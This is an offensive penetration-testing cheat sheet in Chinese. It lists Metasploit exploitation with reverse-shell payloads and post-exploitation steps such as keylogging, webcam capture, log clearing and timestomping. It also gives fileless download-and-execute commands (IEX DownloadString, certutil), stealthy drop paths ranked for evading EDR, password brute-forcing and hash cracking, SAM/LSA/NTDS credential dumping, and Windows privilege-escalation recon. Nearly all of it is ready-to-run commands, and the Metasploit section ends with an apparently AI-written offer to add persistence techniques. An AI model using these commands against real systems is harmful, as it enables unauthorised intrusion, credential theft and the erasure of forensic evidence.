 # Windows + Linux 工具

<details>

<summary>msfconsole</summary>

✅ Metasploit Framework 精簡實戰手冊

以下依據實戰流程順序整理，僅保留最重要指令，適合初學者快速上手。

***

#### 🧭 實戰流程表格：

| 步驟  | 操作內容          | 指令或說明                                                                                                                     |
| --- | ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| 1️⃣ | 啟動 Metasploit | `msfconsole`                                                                                                              |
| 2️⃣ | 搜尋漏洞模組        | `search ms08_067`                                                                                                         |
| 3️⃣ | 載入模組          | `use exploit/windows/smb/ms08_067_netapi`                                                                                 |
| 4️⃣ | 查看參數          | `show options`                                                                                                            |
| 5️⃣ | 設定參數          | `set RHOSTS <目標IP>set LHOST <本機IP>set LPORT 4444`                                                                         |
| 6️⃣ | 設定 Payload    | `set payload windows/meterpreter/reverse_tcp`                                                                             |
| 7️⃣ | 額外 Payload 選擇 | `windows/meterpreter/reverse_httpswindows/shell/reverse_tcplinux/x86/meterpreter/reverse_tcpwindows/meterpreter/bind_tcp` |
| 8️⃣ | 再次確認設定        | `show options`                                                                                                            |
| 9️⃣ | 執行攻擊          | `exploit`                                                                                                                 |
| 🔟  | 控制目標          | `sessions -lsessions -i 1`                                                                                                |

***

#### 🛠️ 後滲透常用指令：

| 功能        | 指令                    |
| --------- | --------------------- |
| 提權        | `getsystem`           |
| 查看程序      | `ps`                  |
| 遷移進程      | `migrate <PID>`       |
| Dump hash | `hashdump`            |
| 上傳檔案      | `upload <本地> <目標路徑>`  |
| 執行檔案      | `execute -f <檔案名> -i` |

***

#### 📦 上傳與下載檔案：

| 類型          | 指令範例                                                    |
| ----------- | ------------------------------------------------------- |
| 上傳至 Linux   | `upload C:\Users\attacker\payload.exe /tmp/payload.exe` |
| 上傳至 Windows | `upload /root/file.txt C:\Windows\Temp\file.txt`        |
| 從目標下載       | `download C:\Users\victim\secret.docx ./secret.docx`    |

***

#### 🖼️ 延伸後滲透功能：

| 功能      | 指令                                            | 說明                           |
| ------- | --------------------------------------------- | ---------------------------- |
| 擷取螢幕畫面  | `screenshot`                                  | 截取目標使用者當前螢幕畫面                |
| 鍵盤側錄開始  | `keyscan_start`                               | 啟動鍵盤記錄器                      |
| 鍵盤側錄匯出  | `keyscan_dump`                                | 匯出已側錄的按鍵資料                   |
| 停止鍵盤側錄  | `keyscan_stop`                                | 停止鍵盤記錄器                      |
| 開啟攝影機   | `webcam_list`, `webcam_snap`                  | 顯示可用攝影機，擷取影像（需支援）            |
| 調整桌面控制權 | `uictl enable keyboard`, `uictl enable mouse` | 控制目標鍵盤與滑鼠                    |
| 系統桌面切換  | `setdesktop <ID>`                             | 切換至其他使用者桌面（需具備會話）            |
| 偽造檔案時間  | `timestomp`                                   | 修改檔案建立/修改/存取時間，常用於反取證        |
| 清除事件紀錄  | `clearev`                                     | 清除系統 event log（常搭配提權後執行）     |
| 檢視環境變數  | `getenv`                                      | 查看目標系統的重要環境變數資訊              |
| 注入進程    | `inject`                                      | 將 shellcode 注入到現有程序（需搭配進階模組） |
| 建立帳號    | `run post/windows/manage/add_user`            | 在目標系統建立隱藏帳號（需管理員）            |
| 新增帳號到群組 | `net localgroup administrators <user> /add`   | 添加使用者至管理群組（手動）               |

| 功能   | 指令                                            |
| ---- | --------------------------------------------- |
| 擷取螢幕 | `screenshot`                                  |
| 鍵盤側錄 | `keyscan_start`、`keyscan_dump`、`keyscan_stop` |
| 清除事件 | `clearev`                                     |

***

💡 **提示**：可將指令寫入 `.rc` 自動化腳本：

```bash
msfconsole -r /root/demo.rc
```

***

這就是實戰中最常見、最實用的 10 步驟流程表格，搭配延伸後滲透技巧。練熟這份表格，絕對能打穿 80% 靶機。需要我再補上自動提權模組、持久化技巧、或生成 PDF 嗎？📄

</details>

<details>

<summary>文件傳送 Windows / Linux 下載</summary>

📊 檔案落地方式比較表（常用指數 ⭐⭐⭐⭐⭐）

| 傳送方式                               | 指令範例                                                                        | 常用指數  | 備註                         |
| ---------------------------------- | --------------------------------------------------------------------------- | ----- | -------------------------- |
| **PowerShell - Invoke-WebRequest** | Invoke-WebRequest -Uri [http://x](http://x/) -OutFile file.exe              | ⭐⭐⭐⭐⭐ | 最常見，兼容性高                   |
| **PowerShell - IEX 記憶體執行**         | IEX (New-Object Net.WebClient).DownloadString('[http://x](http://x/)')      | ⭐⭐⭐⭐⭐ | 無檔案落地、適合隱蔽攻擊               |
| **certutil（無 PowerShell 環境）**      | certutil -urlcache -split -f [http://x](http://x/) file.exe                 | ⭐⭐⭐⭐  | 在不支援 PS 的機器上超有用            |
| **bitsadmin（舊）**                   | bitsadmin /transfer job [http://x](http://x/) file.exe                      | ⭐⭐    | 被淘汰，舊版 Windows 才用          |
| **curl/wget (Linux)**              | curl -o /tmp/x [http://x](http://x/) / wget -O /tmp/x [http://x](http://x/) | ⭐⭐⭐⭐  | Linux 上王者                  |
| **PHP file\_get\_contents**        | php -r '...file\_get\_contents...'                                          | ⭐⭐    | 用於 PHP 可執行的環境（例如 Webshell） |
| **SCP（需 SSH 開啟）**                  | scp file user@ip:/tmp/                                                      | ⭐⭐    | 安全但有 SSH 限制                |
| **pyftpdlib FTP 伺服器**              | python3 -m pyftpdlib -p 2121                                                | ⭐⭐    | 快速建 FTP，適合臨時環境             |
| **Python http.server**             | python3 -m http.server 8000                                                 | ⭐⭐⭐⭐⭐ | 攻擊機設置 payload server 的最愛   |
| **impacket-smbserver（SMB 分享）**     | impacket-smbserver share /tmp                                               | ⭐⭐⭐⭐  | 適用於 Windows SMB 拓撲下的內網     |

🔐 常用落地路徑（隱蔽度排名）

| 路徑                            | 隱蔽星等  | 理由                     |
| ----------------------------- | ----- | ---------------------- |
| C:\ProgramData\\              | ⭐⭐⭐⭐⭐ | 預設資料夾，權限寬鬆，不易偵測        |
| C:\Users\Public\\             | ⭐⭐⭐⭐  | 允許所有人寫入，合法性高           |
| %APPDATA%\Microsoft\Windows\\ | ⭐⭐⭐⭐  | 系統設定位置，名稱可偽裝成 legit 程序 |
| %TEMP%                        | ⭐⭐⭐   | 雖然顯眼，但防毒通常不即時清查        |

🏆 總結建議（最推薦組合）

| 目的             | 推薦方法                                            | 理由               |
| -------------- | ----------------------------------------------- | ---------------- |
| 快速傳送 + 落地      | PowerShell Invoke-WebRequest + C:\ProgramData\\ | 成功率最高            |
| 隱蔽執行           | PowerShell IEX + 不寫入磁碟                          | 超難偵測，適合躲過 EDR    |
| 無 PowerShell 時 | certutil                                        | 幾乎所有 Windows 都內建 |
| Linux 目標       | wget / curl + /tmp                              | 簡單快速             |
| Webshell       | PHP file\_get\_contents                         | Webserver 傳檔首選   |



</details>

<details>

<summary>密碼字典建立 +  Windows/ Linux 密碼爆破攻擊(Online)</summary>

**1️⃣ 資訊蒐集（字典建立階段）**

<table><thead><tr><th width="112.09765625">步驟</th><th width="239.7578125">指令</th><th>用途說明</th><th>輸出檔案</th></tr></thead><tbody><tr><td>1️⃣ 擷取網站文字內容</td><td><code>cewl https://target.com -d 2 -m 3 > raw.txt</code></td><td>自動擷取整個網站文字內容（人名/職稱/描述）</td><td><code>raw.txt</code></td></tr><tr><td>2️⃣ 從內容中找出人名</td><td><code>grep -E '[A-Z][a-z]{2,} [A-Z][a-z]{2,}' raw.txt > names_auto.txt</code></td><td>從網站文字中抓出「名字 姓氏」格式詞彙</td><td><code>names_auto.txt</code></td></tr><tr><td>3️⃣ 手動補充人名清單</td><td>✍️ 手動建立或編輯 <code>names_manual.txt</code></td><td>如果有你自行觀察得出的人名，可手動補進清單</td><td><code>names_manual.txt</code></td></tr><tr><td>4️⃣ 合併自動 + 手動清單</td><td><code>cat names_auto.txt names_manual.txt > names_combined.txt</code></td><td>將兩者整合為最完整人名來源</td><td><code>names_combined.txt</code></td></tr><tr><td>5️⃣ 淨化重複人名</td><td><code>sort -u names_combined.txt > names.txt</code></td><td>去除重複、統一格式，生成乾淨人名清單</td><td>✅ <code>names.txt</code></td></tr><tr><td>6️⃣ 轉換為帳號格式</td><td><code>./username-anarchy -i names.txt > user.list</code></td><td>使用工具將人名轉為常見使用者名稱格式</td><td>✅ <code>usernames.txt</code>（用於 hydra -L）</td></tr></tbody></table>

***

```bash
#!/bin/bash

# ✅ 使用方式：
# bash build_usernames.sh <目標網址> <手動人名清單>

if [ "$#" -ne 2 ]; then
    echo "用法：$0 <目標網址> <手動人名清單>"
    exit 1
fi

TARGET_URL="$1"
MANUAL_NAMES="$2"

echo "[+] 使用 cewl 擷取網站內容..."
cewl "$TARGET_URL" -d 2 -m 3 > raw.txt

echo "[+] 使用 grep 擷取人名格式..."
grep -E '[A-Z][a-z]{2,} [A-Z][a-z]{2,}' raw.txt > names_auto.txt

echo "[+] 合併自動與手動人名清單..."
cat names_auto.txt "$MANUAL_NAMES" > names_combined.txt

echo "[+] 淨化並去除重複..."
sort -u names_combined.txt > names.txt

echo "[+] 使用 username-anarchy 產生帳號格式..."
./username-anarchy -i names.txt > user.list

echo "[✓] 完成！帳號字典輸出於：usernames.txt"

```



| 步驟        | 指令                                                                                                 | 用途說明                  | 輸出檔案                                 |
| --------- | -------------------------------------------------------------------------------------------------- | --------------------- | ------------------------------------ |
| 1️⃣       | `cewl https://target.com -d 3 -m 6 --lowercase -w base_wordlist.txt`                               | 從網站擷取有語意的關鍵字作為密碼字典起點  | `base_wordlist.txt`                  |
| 2️⃣       | `hashcat -r /usr/share/hashcat/rules/best64.rule base_wordlist.txt --stdout > strong_wordlist.txt` | 使用規則將詞彙變形（加數字、大小寫、年份） | `strong_wordlist.txt`                |
| 3️⃣       | `awk '{print $1\"123\"}' strong_wordlist.txt > strong_123.txt`                                     | 額外自定常見結尾變化            | `strong_123.txt`                     |
| 4️⃣       | `cat strong_wordlist.txt strong_123.txt \| sort -u > password.list`                                |                       | 合併所有密碼版本，整理去重                        |
| ☑️ **完成** | **這份密碼字典會被用於 hydra 的 -P**                                                                          | -                     | 使用時：`hydra -P mega_wordlist.txt ...` |

**3️⃣ 破解密碼（離線模式）(選項如果係攞到hash嘅話) (所有需要解密)**

| ⭐     | 指令                                                                                            | 說明                       | 攻擊前提                                   |
| ----- | --------------------------------------------------------------------------------------------- | ------------------------ | -------------------------------------- |
| ⭐⭐⭐⭐⭐ | `hashcat -m 1000 dumpedhashes.txt rockyou.txt`                                                | 破解 NTLM hash（Windows 密碼） | ✔️ NTLM hash (如從 SAM 或 secretsdump 拿到) |
| ⭐⭐⭐⭐⭐ | `john --wordlist=rockyou.txt zip.hash`                                                        | 破解 zip 加密壓縮包密碼           | ✔️ 使用 `zip2john` 先產出 zip.hash          |
| ⭐⭐⭐⭐  | `hashcat -m 1000 <hash> rockyou.txt --show`                                                   | 破解單一 NTLM hash 並即時顯示結果   | ✔️ 一組 hash 值、字典檔                       |
| ⭐⭐⭐⭐  | `unshadow /etc/passwd /etc/shadow > unshadowed.hashes`                                        | 整合 Linux 帳密為一個 hash 檔    | ✔️ 拿到 Linux 的 passwd & shadow 檔案       |
| ⭐⭐⭐⭐  | `hashcat -m 1800 -a 0 unshadowed.hashes rockyou.txt -o cracked.txt`                           | 破解 Linux hash，輸出結果檔      | ✔️ 使用 unshadow 合成的 hash 檔              |
| ⭐⭐⭐⭐  | `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`                                             | 破解 MD5 hash              | ✔️ hash 類型為 MD5，已知格式                   |
| ⭐⭐⭐⭐  | `zip2john file.zip > zip.hash`                                                                | 生成 zip hash，供 john 使用    | ✔️ 有加密的 zip 壓縮檔                        |
| ⭐⭐⭐⭐  | `john --wordlist=rockyou.txt zip.hash`                                                        | 對 zip.hash 嘗試爆破密碼        | ✔️ 用 zip2john 產出 hash                  |
| ⭐⭐⭐⭐  | `office2john.py Protected.docx > protected-docx.hash`                                         | 將加密 Office 文件轉為 hash     | ✔️ 有受保護的 Word 檔案                       |
| ⭐⭐⭐⭐  | `john --wordlist=rockyou.txt protected-docx.hash`                                             | 破解 Office 文件密碼           | ✔️ 上一步產出的 hash                         |
| ⭐⭐⭐⭐  | `bitlocker2john -i Backup.vhd > backup.hashes`                                                | 從 BitLocker 容器提取 hash    | ✔️ 有 `.vhd` 磁碟影像檔                      |
| ⭐⭐⭐⭐  | `hashcat -m 22100 backup.hash rockyou.txt -o backup.cracked`                                  | 破解 BitLocker hash        | ✔️ 有 backup.hash + 字典                  |
| ⭐⭐⭐   | `python3 ssh2john.py id_rsa > ssh.hash`                                                       | 將 SSH 私鑰轉換成 hash（供破解）    | ✔️ 有 SSH 金鑰檔                           |
| ⭐⭐⭐   | `john ssh.hash --show`                                                                        | 破解 SSH 私鑰密碼              | ✔️ 已產生 hash 檔                          |
| ⭐⭐⭐   | `pdf2john.pl secret.pdf > pdf.hash`                                                           | 將加密 PDF 轉換成 hash 檔       | ✔️ 有受保護的 PDF 文件                        |
| ⭐⭐⭐   | `john --wordlist=rockyou.txt pdf.hash`                                                        | 嘗試爆破 PDF 檔案密碼            | ✔️ 上一步 hash 結果                         |
| ⭐⭐    | `file GZIP.gzip`                                                                              | 判斷檔案格式（偵測 GZIP 類型）       | ✔️ 有壓縮加密檔，需確認格式                        |
| ⭐⭐    | \`for i in $(cat rockyou.txt); do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz; done\`           | 用字典一個個爆 AES 解密 gzip                    |

**4️⃣ 爆破登入（線上測試帳密）(Windows 爆破) (Linux 爆破)**&#x20;

| ⭐     | 指令                                                             | 描述                            | ⚠️ 攻擊前置條件                                    |
| ----- | -------------------------------------------------------------- | ----------------------------- | -------------------------------------------- |
| ⭐⭐⭐⭐⭐ | `hydra -L user.list -P password.list <service>://<ip>`         | 使用帳密清單爆破 SSH、RDP、Web Login 等  | <p>✔️ 服務已開啟（可連線）<br>✔️ 用戶清單與密碼字典準備好</p>      |
| ⭐⭐⭐⭐  | `hydra -C userpass.list ssh://<ip>`                            | 使用 user:pass 格式爆破（憑證填充）       | <p>✔️ SSH 可連線<br>✔️ 已抓取的帳密組合清單</p>           |
| ⭐⭐⭐⭐  | `hydra -l username -P password.list <service>://<ip>`          | 針對單一帳號，爆破其可能密碼                | <p>✔️ 確定帳號名稱<br>✔️ 密碼字典準備好</p>               |
| ⭐⭐⭐⭐  | `hydra -L user.list -p password <service>://<ip>`              | 用一組密碼爆破多個帳號                   | <p>✔️ 常見弱密碼（如：123456）<br>✔️ 帳號清單準備好</p>      |
| ⭐⭐⭐⭐  | `evil-winrm -i <ip> -u Administrator -H "<hash>"`              | 使用哈希登入 Windows（Pass-The-Hash） | <p>✔️ 目標開啟 WinRM（5985）<br>✔️ 有 NTLM hash</p> |
| ⭐⭐⭐⭐  | `crackmapexec winrm <ip> -u user.list -p password.list`        | 使用 CrackMapExec 爆破 WinRM      | <p>✔️ 有使用者清單<br>✔️ 目標開啟 WinRM 服務</p>         |
| ⭐⭐⭐   | `crackmapexec smb <ip> -u "user" -p "password" --shares`       | 用帳密登入 SMB 並列出共享資料夾            | <p>✔️ 帳密組合已知<br>✔️ 目標開啟 445 port（SMB）</p>    |
| ⭐⭐⭐   | `crackmapexec smb <ip> --local-auth -u <user> -p <pass> --sam` | 導出本地 SAM 密碼 hash              | <p>✔️ 有目標本機帳號與密碼<br>✔️ 該帳號為 local admin</p>  |
| ⭐⭐⭐   | `crackmapexec smb <ip> --local-auth -u <user> -p <pass> --lsa` | 讀取 LSA secrets，可能拿到明文密碼       | <p>✔️ 本地 admin 權限<br>✔️ SMB port 可連線</p>     |
| ⭐⭐⭐   | `crackmapexec smb <ip> -u <user> -p <pass> --ntds`             | 從 NTDS 抽取整個域內帳密 hash          | <p>✔️ admin 權限帳號<br>✔️ 目標為域控或有複製 NTDS 權限</p> |

</details>

<details>

<summary>預設憑證</summary>

以下是 **DefaultCreds-cheat-sheet 使用教學** 的步驟表格整理，讓你一目了然：

<table><thead><tr><th width="64.55859375">步驟</th><th>操作說明</th><th>命令/工具</th><th>預期結果</th><th>如果出錯該怎麼辦</th></tr></thead><tbody><tr><td>1️⃣</td><td>安裝工具</td><td><code>pip3 install defaultcreds-cheat-sheet</code></td><td>安裝成功後可以使用 <code>creds</code> 指令</td><td>若無法安裝：<br>① 確認已安裝 Python3/pip3<br>② 檢查網路<br>③ 嘗試手動安裝</td></tr><tr><td>2️⃣</td><td>手動安裝（如步驟1失敗）</td><td>git clone <a href="https://github.com/ihebski/DefaultCreds-cheat-sheet">https://github.com/ihebski/DefaultCreds-cheat-sheet</a><br>cd DefaultCreds-cheat-sheet<br>pip3 install -r requirements.txt<br>cp creds /usr/bin/ &#x26;&#x26; chmod +x /usr/bin/creds</td><td>將 <code>creds</code> 命令加入可執行環境</td><td>若 <code>creds</code> 無法執行，確認 <code>/usr/bin/creds</code> 權限與環境變數</td></tr><tr><td>3️⃣</td><td>搜尋預設帳密</td><td><code>creds search tomcat</code></td><td>列出 Apache Tomcat 的預設帳密，如 <code>admin:admin</code></td><td>若無結果，嘗試不同關鍵字，例如 <code>apache</code></td></tr><tr><td>4️⃣</td><td>篩選出所有設備類型</td><td><code>creds dump</code></td><td>列出所有支援查詢的設備與應用程式類型</td><td>結果太多可加上 `</td></tr><tr><td>5️⃣</td><td>實際應用帳密登入目標</td><td>依據查到的帳密登入 Web、FTP、SSH 等服務</td><td>測試是否能成功登入</td><td>若失敗，代表目標已改密，建議繼續其他測試手法</td></tr><tr><td>6️⃣</td><td>對特定設備類型列出帳密</td><td>`creds dump</td><td>grep -i cisco`</td><td>篩出所有 Cisco 設備帳密</td></tr></tbody></table>

</details>

**Windows 權限偵察與後續行動表格（含姿勢判斷 + 完整指令）**

| 指令                                                                                                             | 檢查點（進階姿勢）                                                                                                                                                                                                                                                                                                                      | 若發現目標                                                         | 下一步行動                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| <p></p><ol><li><mark style="color:red;">初始存取（Exploit 漏洞打進機器）</mark></li></ol>                                  |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `systeminfo`                                                                                                   |                                                                                                                                                                                                                                                                                                                                |                                                               | [#windows-kernel-exploits-nei-he-lou-dong-ti-quan](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#windows-kernel-exploits-nei-he-lou-dong-ti-quan "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `wmic product get name`                                                                                        | 掃描應用程式是否存在弱點（如 Java 6、Flash、老版 7-Zip、TeamViewer）                                                                                                                                                                                                                                                                               | 是                                                             | 查 CVE，準備特定 Exploit 或利用 DLL Hijacking                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 使用 msfvenom 生成惡意 MSI 並建立反向連線                                                                                   |                                                                                                                                                                                                                                                                                                                                |                                                               | [#zhong-du-gong-ji-sheng-chengeyi-msi-bing-jian-li-fan-xiang-lian-xian](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#zhong-du-gong-ji-sheng-chengeyi-msi-bing-jian-li-fan-xiang-lian-xian "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| <p></p><ol start="2"><li><mark style="color:red;">權限提升（提升為 SYSTEM / Administrator）</mark></li></ol>            |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `whoami /priv`                                                                                                 | <mark style="color:red;">SeImpersonate</mark> / <mark style="color:red;">SeAssignPrimaryToken</mark> / <mark style="color:red;">SeDebugPrivilege</mark> /  <mark style="color:red;">SeTakeOwnershipPrivilege</mark> /<mark style="color:red;">SeBackupPrivilege</mark> /<mark style="color:red;">SeLoadDriverPrivilege</mark>  | 存在                                                            | [#seimpersonate-and-seassignprimarytoken-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#seimpersonate-and-seassignprimarytoken-gong-ji "mention")[#sedebugprivilege-quan-xian-ti-quan-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#sedebugprivilege-quan-xian-ti-quan-gong-ji "mention")[#setakeownership-quan-xian-lan-yong-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#setakeownership-quan-xian-lan-yong-gong-ji "mention")  [#print-operators-lie-yin-cao-zuo-yuan-quan-xian-li-yong](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#print-operators-lie-yin-cao-zuo-yuan-quan-xian-li-yong "mention")/ |
| `net local "Event Log Readers"`                                                                                | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#event-log-readers-quan-xian-lan-yong-min-gan-ming-ling-xing-xie-qu-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#event-log-readers-quan-xian-lan-yong-min-gan-ming-ling-xing-xie-qu-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `Get-ADGroupMember -Identity DnsAdmins`                                                                        | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#dnsadmins-quan-xian-lan-yong-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#dnsadmins-quan-xian-lan-yong-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| `Get-LocalGroupMember -Group "Hyper-V Administrators"`                                                         | 顯示自己的名字                                                                                                                                                                                                                                                                                                                        |                                                               | [#hyperv-administrators-quan-xian-li-yong](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#hyperv-administrators-quan-xian-li-yong "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA`          | <p><code>REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin</code><br></p>                                                                                                                                                                                   | <p>如果是 <code>0x2</code> 或 <code>0x0</code>，恭喜，非常容易利用！<br></p> | [#user-account-controluac-rao-guo](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#user-account-controluac-rao-guo "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `.\SharpUp.exe audit`                                                                                          | 找 `Modifiable Service Binaries`、`Modifiable Services` 或 `Modifiable Registry Keys`                                                                                                                                                                                                                                             | 是                                                             | [#ruo-quan-xian-ti-quan-gong-ji](nei-bu-shen-tou-ce-shi/windows-quan-xian-ti-sheng.md#ruo-quan-xian-ti-quan-gong-ji "mention")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| <p></p><ol start="3"><li><mark style="color:red;">憑證擷取（Dump SAM、LSASS、Security Hive 等）</mark></li></ol>        |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `net user`                                                                                                     | 檢查本地帳戶所屬群組，如 Administrators、是否已啟用、上次登入時間                                                                                                                                                                                                                                                                                       | 存在                                                            | 測試本地或遠端登入，收集活動用戶資訊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `net localgroup`                                                                                               | 群組中是否出現其他使用者（如其他網域使用者）或服務帳戶 -> 提示潛在橫向目標                                                                                                                                                                                                                                                                                        | 存在                                                            | 測試本地或遠端登入，辨識可能通用憑證                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `net localgroup "Event Log Readers"`                                                                           | 有帳號存在 -> 可無需提權查看安全日誌，例如登入事件4624                                                                                                                                                                                                                                                                                                | 是                                                             | 嘗試讀取安全日誌，觀察高權限帳號活動或登入來源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml`                                                  | 快速搜尋敏感檔案，針對 config 設定、密碼備註等                                                                                                                                                                                                                                                                                                    | 有密碼關鍵字                                                        | 嘗試登入 SMB、RDP、AD、VPN 等外部資源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| `gc 'C:\Users\<username>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt'`                 | 使用者自訂詞典，常用於自定義拼字，可為密碼字典來源                                                                                                                                                                                                                                                                                                      | 有詞彙                                                           | 擴充字典進行暴力破解或社工口令組合                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| `Get-ChildItem -Path C:\ -Recurse -Include unattend.xml,unattend.xml.bak -ErrorAction SilentlyContinue`        | 搜尋系統自動化部署檔，常見於 AD join 或本地帳號配置                                                                                                                                                                                                                                                                                                 | 有檔案                                                           | 解析明文帳密，執行本地或橫向登入                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| `gc (Get-PSReadLineOption).HistorySavePath`                                                                    | PowerShell 使用歷史，會留有憑證、命令、IP 等行為痕跡                                                                                                                                                                                                                                                                                              | 有敏感內容                                                         | 重複利用命令、憑證、服務指令構建 lateral pivoting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| `findstr /SI /M "password" *.txt *.ini *.cfg *.config *.xml`                                                   | 多點位掃描用戶文件夾與備份                                                                                                                                                                                                                                                                                                                  | 有內容                                                           | 嘗試登入其他服務或雲端資源                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| `Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"`                                           | 精準搜尋 Documents 內部檔案，有較高命中率                                                                                                                                                                                                                                                                                                     | 有發現                                                           | 做憑證爆破或橫向移動測試                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| `%SYSTEMDRIVE%\pagefile.sys`                                                                                   | 交換記憶體檔案，可能保有歷史密碼、明文資訊                                                                                                                                                                                                                                                                                                          | 可取得                                                           | 用 volatility 分析記憶體，找帳密或 hash、token 等敏感資訊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| `cmdkey /list`                                                                                                 | Windows 儲存的憑證快取，可供 runas 調用                                                                                                                                                                                                                                                                                                    | 有憑證紀錄                                                         | 使用 `runas /savecred` 重複登入，靜默使用憑證攻擊                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| `%WINDIR%\debug\NetSetup.log`                                                                                  | Windows AD 加入記錄，可能含帳號或建立者資訊                                                                                                                                                                                                                                                                                                    | 可見                                                            | 推估 AD 管理者行為、找通用憑證線索                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| `%WINDIR%\system32\config\security.sav`                                                                        | 備份登錄檔，含安全性策略與權限資訊                                                                                                                                                                                                                                                                                                              | 可取得                                                           | 做離線 Registry 分析，找 SID / ACL 或權限設定                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| <p></p><ol start="4"><li><mark style="color:red;">密碼破解（Hashcat / John 等離線攻擊）</mark></li></ol>                  |                                                                                                                                                                                                                                                                                                                                |                                                               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| `C:\ProgramData\Configs*`                                                                                      | 常用為自訂軟體的儲存位置，含明文帳密或 token                                                                                                                                                                                                                                                                                                      | 有設定檔                                                          | 尋找帳密設定或備份，橫向攻擊新目標                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
